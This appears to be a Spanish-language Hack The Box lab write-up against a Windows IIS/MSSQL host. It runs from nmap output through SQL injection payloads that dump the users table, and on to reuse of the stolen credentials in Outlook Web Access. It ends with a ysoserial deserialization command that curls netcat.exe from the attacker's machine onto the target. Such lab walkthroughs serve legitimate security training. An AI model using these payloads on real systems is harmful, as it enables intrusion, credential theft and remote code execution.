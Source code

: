 #Advanced-Labs #Nota #tecnicas 

### Ping

```python
ping -c 1 10.13.37.12
PING 10.13.37.12 (10.13.37.12) 56(84) bytes of data.
64 bytes from 10.13.37.12: icmp_seq=1 ttl=127 time=96.2 ms

--- 10.13.37.12 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 96.183/96.183/96.183/0.000 ms
```

### TTL = 127 Windows

### nmap

```python
Nmap scan report for 10.13.37.12
Host is up (0.089s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       VERSION
443/tcp  open  ssl/https
|_http-title: Home page - Home
|_http-server-header: Microsoft-IIS/10.0
| ssl-cert: Subject: commonName=WMSvc-SHA2-WEB
| Not valid before: 2020-10-12T18:31:49
|_Not valid after:  2030-10-10T18:31:49
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2070.00; GDR1
| ms-sql-info: 
|   10.13.37.12:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 GDR1
|       number: 15.00.2070.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: GDR1
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.13.37.12:1433: 
|     Target_Name: TEIGNTON
|     NetBIOS_Domain_Name: TEIGNTON
|     NetBIOS_Computer_Name: WEB
|     DNS_Domain_Name: TEIGNTON.HTB
|     DNS_Computer_Name: WEB.TEIGNTON.HTB
|     DNS_Tree_Name: TEIGNTON.HTB
|_    Product_Version: 10.0.17763
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WEB.TEIGNTON.HTB
| Not valid before: 2024-06-12T13:37:50
|_Not valid after:  2024-12-12T13:37:50
| rdp-ntlm-info: 
|   Target_Name: TEIGNTON
|   NetBIOS_Domain_Name: TEIGNTON
|   NetBIOS_Computer_Name: WEB
|   DNS_Domain_Name: TEIGNTON.HTB
|   DNS_Computer_Name: WEB.TEIGNTON.HTB
|   DNS_Tree_Name: TEIGNTON.HTB
|   Product_Version: 10.0.17763
|_  System_Time: 2024-07-14T16:57:50+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 44s, deviation: 0s, median: 44s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.83 seconds
```

### Enumeración del puerto 80 (http)
El puerto `443/tcp` está abierto, y tiene corriendo el servicio `open ssl` es decir que es una `web https`.
parece que tenemos muchas cosas aquí. debemos hacer una enumeración mas a fundo de esta web
![[Pasted image 20240714130314.png]]

si vamos al apartado de staff y analizamos el código fuente podemos encontrar la primera flag y también podemos ver unas credenciales
![[Pasted image 20240714130420.png]]

### admin
aquí vamos a probar las credenciales que hemos conseguido 
![[Pasted image 20240714132229.png]]

### SQLI
después de logearnos podemos ver el apartado de management y lo primero que vemos es una especie de petición a una base de datos asi que probamos directamente una `SQLI` y obtenemos información del primer parámetro `weapp`  

```python
'+(select db_name())+'
```

![[Pasted image 20240714132403.png]]

### Enumeración de la base de datos

```python
'+(select name from webapp..sysobjects where xtype = 'U' order by name offset 1 rows fetch next 1 rows only)+'
```

en esta enumeración podemos ver que existe una tabla que se llama `users`
![[Pasted image 20240714132734.png]]

`dumpeamos el campo users`
```python
'+(select top 1 username from users order by username)+'
```

![[Pasted image 20240714133051.png]]

`dumpeamos el campo password`
```python
'+(select top 1 password from users order by username)+'
```

![[Pasted image 20240714133156.png]]

`haciendo muchas pruebas y peticiones logramos conseguir una flag`
```python
'+(select password from users order by username offset 2 rows fetch next 1 rows only)+'
```

![[Pasted image 20240714133355.png]]

### Fuzzing con wfuzz
haciendo Fuzzing encontramos un directorio llamado owa
![[Pasted image 20240714133924.png]]

### owa
en este directorio tenemos una web de `Outlook` en la cual obviamente vamos a probar las credenciales que hemos conseguido
![[Pasted image 20240714134042.png]]

### Outlook
haciendo uso de las credenciales que hemos conseguimos podemos hacer un inicio de sesión en Outlook
![[Pasted image 20240714134318.png]]

### open another mail box
vamos a intentar ingresar a otro mail y buscamos el del usuario admin
![[Pasted image 20240714144522.png]]

### jay teignton
descubrimos un correo enviado y tenemos un archivo.zip que vamos a descargar
![[Pasted image 20240714144626.png]]

### Deseralización de cookies
viendo esto puedo pensar el realizar una Deseralización de las cookies del perfil. para ello necesitaremos una herramienta que se llama ysoserial que esta para Windows así que vamos a necesitar una maquina Windows para este paso
![[Pasted image 20240714145130.png]]

### Windows machine
desde nuestra maquina Windows descargamos la herramienta [ysoserial](https://github.com/pwntester/ysoserial.net/releases/download/v1.36/ysoserial-1dba9c4416ba6e79b6b262b758fa75e2ee9008e9.zip) y luego ja ejecutaremos en una PowerShell con permisos de administrador para poder crear nuestra data serializada. esta data serializada es simplemente una petición web a un servidor de python que en este caso seremos nosotros compartiendo el archivo netcat.exe
```python
.\ysoserial.exe -f JavaScriptSerializer -o base64 -g ObjectDataProvider -c "cmd /c curl 10.13.14.7/netcat.exe -o C:\ProgramData\netcat.exe"
```

![[Pasted image 20240714150450.png]]











### Vulnerabilidades

| CVE-XXXX-XXXXX | Nombre de la vulnerabilidad | Tipo | Nivel | Link |
| -------------- | --------------------------- | ---- | ----- | ---- |
|                |                             |      |       |      |
|                |                             |      |       |      |
|                |                             |      |       |      |
